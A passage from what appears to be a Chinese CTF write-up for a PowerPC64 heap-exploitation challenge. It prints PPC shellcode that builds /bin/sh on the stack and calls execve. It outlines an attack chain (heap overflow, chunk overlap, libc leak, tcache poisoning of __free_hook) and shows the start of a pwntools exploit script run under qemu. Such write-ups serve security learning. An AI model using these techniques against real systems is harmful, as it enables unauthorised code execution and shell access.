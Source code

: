 第三种思路是最通用的，本题由于我们无法控制lr寄存器，所以无法像上一道题目通过lr索引到/bin/sh。然而我们可以换一种思路，即通过shellcode在某个可写地址写入/bin/sh然后指向即可。在所有寄存器中，我们知道r1永远是指向栈空间的，而栈空间必然是可写的，所以不妨借由r1在栈上写入/bin/sh，从而确保r3参数的布置。shellcode如下

```python
sc3='''
li 4, 0
li 5, 0
li 0, 11
li 6, 0
addis 6, 6, 0x2f62
addi 6, 6, 0x696e
stw 6, 0(1)
li 6, 0
addis 6, 6, 0x2f73
addi 6, 6, 0x6800
stw 6, 4(1)
mr 3, 1
sc
'''
```

最终exp如下，本题思路简单来说就是首先通过不断编辑造成足够多字节的堆溢出，然后修改chunk头的size位造成堆块重叠，从而得到unsorted bin并泄露基址；之后再攻击tcache的fd劫持__free_hook，跳转到布置在堆空间上的shellcode从而getshell。

有一点不一样的是在调试时发现ppc中__free_hook和x86、x64中的略有不同，ppc这里放置的是一个二级指针，指向调用函数的指针。所以这里我们让__free_hook指向一个堆指针chunk_ptr，然后chunk_ptr处填写chunk_ptr+8，并在之后写入shellcode内容即可。

## exp

```python
from pwn import *
import sys

context.log_level = 'debug'
context.endian = 'big'
context.arch='powerpc64'
Debug = sys.argv[1]

elf = ELF('./pwn')
libc = ELF('/usr/powerpc64-linux-gnu/lib/libc-2.31.so')

def get_sh(other_libc=null):
    if Debug == '1':
        return process(["./qemu-ppc64-static","-g","1234","-L","/usr/powerpc64-linux-gnu","./pwn"])
        log.info('Please use GDB remote!(Enter to continue)')
        pause()
        return r
    else:
        return process(["./qemu-ppc64-static","-L","/usr/powerpc64-linux-gnu","./pwn"])

def add(name, sz, ct):
    r.sendlineafter('cmd> ', str(1))
    r.sendlineafter('Book name: ', name)
    r.sendlineafter('Book description size: ', str(sz))
    r.sendafter('Book description: ', ct)

def edit(name, ct):
    r.sendlineafter('cmd> ', str(2))
    r.sendlineafter('Book name: ', name)
    r.sendafter('New book description: ', ct)

def show(name):
    r.sendlineafter('cmd> ', str(3))
    r.sendlineafter('Book name: ', name)

```